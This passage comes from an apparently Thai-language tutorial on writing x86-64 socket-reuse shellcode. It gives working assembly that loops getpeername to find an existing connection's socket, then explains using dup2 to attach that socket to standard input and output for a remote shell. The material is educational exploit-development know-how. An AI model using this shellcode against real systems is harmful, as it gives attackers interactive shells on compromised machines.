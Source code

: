 สิ่งที่เราทำคือเราใช้คำสั่ง `test rax, rax` ในการตรวจสอบ [การทำงานของคำสั่ง test ดูได้ที่นี่](https://en.wikipedia.org/wiki/TEST_(x86_instruction)#:~:text=In%20the%20x86%20assembly%20language,while%20AF%20flag%20is%20undefined.) ให้อธิบายเร็ว ๆ คือหากค่าของ rax != 0 เราจะ `jmp` กลับไปที่ loop_findfd เพื่อหา sockfd จนกว่าจะเจอ

```nasm
	test rax, rax       ; if rax != 0 jmp to loop_findfd
	                        ; else => rdi is sockfd -> dup 
	jne loop_findfd
```

ซึ่งถ้าเมื่อได้ค่า sockfd ที่เราตามหา (rax = 0) มันก็จะไม่ `jmp` แล้วไปทำงานที่คำสั่งต่อไปค้าบ โดยที่ค่า sockfd จะอยู่ที่ rdi นั้นเองค้าบ

> จริง ๆ ตรงนี้เราอาจตรวจสอบเพิ่มเติมด้วยว่า FD นี้เป็นของ IP เราจริง ๆ รึเปล่าแต่ผมขี้เกียจเขียนอ่ะ ถ้าใครอยากตรวจสอบเพิ่มค่าของ IP Address อยู่ที่ตำแหน่ง `rsi+4` นะค้าบบบ

เมื่อเราเอาทั้งหมดมาประกอบร่าง Assembly ของเราจะหน้าตาประมาณนี้ค้าบบ

```nasm
find_fd:

    xor rdx, rdx        ; rdx = 0
    mov rdi, rdx        ; rdi = 0
    
    ; rsi = *addr
    push rdx            ; prep stack for *addr
    push rdx            ; prep stack for *addr
    mov rsi, rsp        ; rsi = *addr

    ; rdx = *addr_len
    mov dl, 16          ; addr_len = 16
    push rdx            ; push addr_len to stack
    mov rdx, rsp        ; rdi = *addr_len

    loop_findfd:
    ; rdi = sockfc
    inc rdi             ; inc every loop

    xor rax, rax        ; rax = 0
    mov al, 0x34        ; rax = 0x34
    syscall             ; call getpeername

    test rax, rax       ; if rax != 0 jmp to loop_findfd
                        ; else => rdi is sockfd -> dup2 
    jne loop_findfd
```

### 2. ใช้ฟังก์ชัน dup2 เพื่อทำให้ fd 0, 1, และ 2 เชื่อมกับ sockfd ของเรา

เมื่อเราได้ค่า sockfd ที่เราต้องการ (ซึ่งตอนนี้อยู่ที่ rdi) สิ่งที่เราต้องทำต่อไปคือใช้งาน system call `dup2` เพื่อคัดลอก sockfd ของ socket เราไปทับ STDIN, STDOUT และ STDERR จะทำให้เราสามารถติดต่อกับ shell ได้นั้นเอง
